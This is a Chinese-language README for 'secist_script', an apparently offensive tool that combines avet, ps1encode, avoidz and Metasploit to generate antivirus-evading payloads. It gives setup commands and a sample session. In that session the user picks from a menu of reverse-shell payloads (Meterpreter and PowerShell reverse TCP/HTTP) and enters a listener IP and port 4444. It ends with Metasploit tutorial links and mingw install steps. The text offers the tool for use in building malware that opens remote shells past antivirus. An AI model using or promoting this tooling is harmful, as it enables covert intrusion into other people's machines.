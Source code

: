 
＃secist_script

由于传播，利用此脚本所提供的工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，即刻安全以及工具作者不为此承担任何责任。

#说明

此款工具借鉴

https://github.com/govolution/avet => avet

https://github.com/CroweCybersecurity/ps1encode => ps1encode

https://github.com/M4sc3r4n0/avoidz =>avoidz

web_delivery => msf

Invoke => powershell

#用法（Usage）：

git clone https://github.com/demonsec666/secist_script.git

sudo chmod -R 777 .

3  sudo ./setup.sh

4. sudo ./secist_script.sh

#例子 secist> 7

     < avoidz Payload >
      --------------------
                         \   ^__^             
                          \  (oo)\_______     
                             (__)\       )\/\ 
                                 ||----w |    
                                 ||     ||     
+------------++-------------------------++-----------------------+ v1.6 (secist----2017.7.14)

        你的IP地址 :192.168.1.103
        系统版本 :Kali GNU/Linux Rolling \n \l
+------------++-------------------------++-----------------------+

    [1] Meterpreter_Reverse_tcp		 [5] Shell_reverse_tcp
    [2] Meterpreter_Reverse_http		 [6] Powershell_reverse_tcp
    [3] Meterpreter_Reverse_https		 [7] Multi encode payload
    [4] Meterpreter_Reverse_tcp_dns          [8] exit        
    [9] back meun     

                secist>  1
		         secist>请输入你的ip地址: 192.168.1.103
   secist>请输入你的端口: 4444
请稍等几分钟，您的烤鱼即将出炉=====================================》 ##################################################################

Tool To bypass most A.V - dev-labs

#msf系列教程

Metasploit 系列教程 => 链接:https://pan.baidu.com/s/1dFzPkJZ 密码:evwg

Metasploit 系列教程 第八课=> www.ggsec.cn/MSF8-0.html
#mingw32模块安装（如缺少）
vim  /etc/apt/sources.list

deb http://ftp.de.debian.org/debian/ jessie  main

apt-get updete

apt-get install mingw-w64 -y

apt-get install  mingw32

